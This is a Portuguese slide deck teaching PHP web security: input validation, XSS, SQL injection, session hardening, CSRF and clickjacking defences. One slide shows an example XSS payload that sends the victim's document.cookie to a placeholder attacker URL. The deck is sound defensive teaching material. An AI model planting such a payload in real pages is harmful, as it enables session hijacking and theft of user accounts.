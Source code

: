 #HSLIDE
# Segurança no desenvolvimento web
<link rel="stylesheet" type="text/css" href="https://fonts.googleapis.com/css?family=Ubuntu+Mono">
#HSLIDE
## Pilares da Segurança da Informação  
- Confidencialidade
- Integridade
- Disponibilidade
## Princípios  
- Segurança em múltiplas camadas
- Considere que cada camada eventualmente falhará
- Forneça o mínimo de informação necessária
#HSLIDE
## Validação de entradas
Considerando que a requisição HTTP pode ser manipulada pelo cliente, toda entrada do usuário deve ser validada.
#HSLIDE
### Proteção
- Para isso, o PHP oferece as extensões ***ctype*** e ***filter***. 
Além disso, a maioria dos frameworks de mercado implementam algum tipo de tratamento/sanitização de dados.
- PHP 7+ oferece ***type declarations*** que permitem especificar o tipo esperado de parâmetros.
Para isso:
`declare(strict_types=1);`
#HSLIDE
## Cross-site scripting (XSS)
Ocorre quando um script inserido por um usuário é armazenado e/ou executado pela aplicação. 
#HSLIDE
### Exemplo
```javascript
<script>
(new Image()).src = “http://urldoatacante/?” + escape(document.cookie);
</script>
```
#HSLIDE
### Tipos
* Armazenado
* Não-persistente
* Baseado em DOM
#HSLIDE
### Consequências
- Roubo de *cookie*/sessão
- Manipulação de DOM
- *Keylogger*
- *Browser exploits*
- Basicamente tudo que o JavaScript permite
#HSLIDE
### Proteção
- [*Same-origin Policy*](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) faz com que apenas códigos do mesmo *origin* (protocolo/domínio/porta) tenham acesso à aplicação, ao mesmo tempo que permite acesso a arquivos externos (uma lib como o [JQuery](https://jquery.com/), por exemplo)
- Filtrar entradas ([*strip_tags*](http://php.net/manual/en/function.strip-tags.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php), [*preg_replace*](http://php.net/manual/en/function.preg-replace.php))
- Escapar as saídas ([*htmlspecialchars*](http://php.net/manual/en/function.htmlspecialchars.php), [*htmlentities*](http://php.net/manual/en/function.htmlentities.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php))
- Aplicar [*Content Security Policy*](https://content-security-policy.com/) (*default-src*, *img-src*, *script-src*), para isso, o ideal é eliminar código inline
#HSLIDE
### Testando a CSP
```
Content-Security-Policy-Report-Only
report-uri /caminho/arquivo.php
```
#HSLIDE
## SQL Injection

### Proteção
- Não concatenar dados (parâmetros) com comandos
- Utilizar prepared statements
- Validar entradas
- Escapar caracteres
#HSLIDE
## Gerenciamento de estado

### Proteção
- Usar HTTPS
- Definir *secure* e *HttpOnly* *flags*
- Prevenir XSS
- [Alterar](http://php.net/manual/en/function.session-regenerate-id.php) ID de sessão
- Armazenar informação do usuário na sessão (*headers*)
- Detectar sequestro de sessão
- Usar [HSTS](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet) para dificultar o roubo de sessão
#HSLIDE
### Diretivas
```php
session.use_strict_mode = true;
session.cookie_secure = true;
session.use_only_cookies = true;
session.cookie_httponly = true;

Strict-Transport-Security: max-age=86400; includeSubDomains
```
#HSLIDE
## Cross-site Request Forgery (CSRF)
Causado por vírus, scam/phishing, site/redirecionamento malicioso

### Proteção
- Não usar GET para operações que envolvam manipulação de dados (porém, o POST também pode ser manipulado)
- Enviar token 
#HSLIDE
### Clickjacking
Atacante cria página e, através de requisições para o site alvo (usualmente via iframe), aproveita-se da sessão do usuário

#### Proteção
`header(‘X-FRAME-OPTIONS’, ‘DENY’); //ou SAMEORIGIN`
#HSLIDE
## Ferramentas
- [Arachni web scanner](http://www.arachni-scanner.com/)
- [Dependencies security checker](https://github.com/sensiolabs/security-checker)
#HSLIDE
## Referências
[OWASP](https://www.owasp.org)
